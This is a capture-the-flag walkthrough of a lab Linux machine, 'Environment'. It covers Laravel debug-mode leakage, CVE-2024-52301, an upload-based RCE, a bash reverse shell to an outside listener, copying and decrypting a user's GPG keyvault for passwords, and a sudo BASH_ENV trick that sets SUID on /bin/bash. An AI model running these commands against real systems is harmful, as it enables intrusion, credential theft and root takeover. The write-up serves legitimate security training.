









# Environment
Environment is a medium-difficulty Linux machine that explores weaknesses in PHP and the Laravel framework. For privilege escalation, it highlights how overly permissive file execution rights can be abused to gain elevated access.

## Enumeration
We begin with an Nmap scan.

### NMAP
```
sudo nmap -sVC --min-rate 1000 10.10.11.67
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 04:43 IST
Nmap scan report for 10.10.11.67
Host is up (0.37s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.69 seconds
```

Apparently, the server has 2 ports open (22 - ssh and 80 - HTTP). The web service responds to the domain name - `environment.htb` and redirects any user to trying to connect through the IP address. So, we add the the domain to our `/etc/hosts`.
```
echo '10.10.11.67  environment.htb' | sudo tee -a /etc/hosts
```

After adding, it is now time to visit the [site](http://environment.htb).


The website only shows a landing page by default and there are no hidden paths revealed through this page.


### FFuF

The next step is to use FFuF to fuzz through the site for hidden pages and directories.
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://environment.htb/FUZZ -t 128
```
The scan reveals an interesting `/login` page.


## Foothold

On this page, we see a *Remeber Me* option. To get an internal server error that might leak some code (if the environment is in debug mode), we will intercept a login request and change the value of this parameter to a data type other than Boolean. For example, we can change it to an integer so that it becomes `remember=90`.



This gives us a lot of useful information as debug mode is active on this site.



This page shows that the website is running `PHP 8.2.28 — Laravel 11.30.0` and in `preprod` environment, it logs in the user with `user_id = 1` by default.

On searching the web, we find that this version is vulnerable to [CVE-2024-52301](https://nvd.nist.gov/vuln/detail/CVE-2024-52301) and we might be able to change the environment of the website using `--env=preprod`.



*Note: The request needs to be minimal just like in the screenshot. The important parameters that need to remain are `_token` and `?--env=preprod`. The method is required to be **POST**.

On the profile page, we see a file upload parameter (to upload a profile picture).



We will use this upload functionality to obtain RCE (Remote Code Execution) on the web server. For that, we upload a jpeg image to obtain the form boundary and then modify the request as depicted.



The response gives us the url to the uploaded file and RCE works!



To obtain a reverse shell, we use the decoder tab from BurpSuite to encode our shell payload and set up a listener using `netcat`.

```
nc -lvnp 4444
```


```
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/4444 0>&1'
```

On submitting this encrypted payload as the value of `cmd` parameter on our PHP page, a reverse shell is successfully obtained.



**We find the user flag at `/home/hish/user.txt`.**


To obtain an ssh connection as Hish we first zip and download the `.gnupg` directory and the `backup/keyvault.gpg` file in his home folder.



To zip,
```
zip -r /tmp/gnupg.zip .gnupg
```

And, in the `/tmp` directory,
```
cd /tmp
python3 -m http.server &
```

This creates a web server in the `/tmp` directory and we are able to download the file from http://environment.htb:8000.

On our local machine, we download and unzip the `gnupg.zip` file. This gives us the folder - `.gnupg`. We can decrypt it as follows through the `gpg` command. Inside `.gnupg`,
```
unzip gnupg.zip
export GNUPGHOME=$(pwd)/.gnupg
gpg --homedir ./.gnupg --decrypt keyvault.gpg
```

This reveals the passwords that Hish uses on different sites including _environment.htb_


## Privelege Escalation

We successfully login as Hish through the password obtained from his keyvault using ssh.

```
ssh hish@environment.htb
```

Running the command
```
sudo -l
```
reveals
```
User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

This can be easily leveraged to obtain root privileges.
For that, we execute the following to set SUID as root on `/bin/bash`.
```
cat > root.sh << 'EOF'
#!/bin/bash
chmod +s /bin/bash
EOF
```
```
chmod +x root.sh
sudo BASH_ENV=root.sh /usr/bin/systeminfo
```
And finally,
```
/bin/bash -p
```

This gives us a shell with root privileges. To read the root flag, 
```
cat /root/root.txt
```

This wraps up the Environment machine.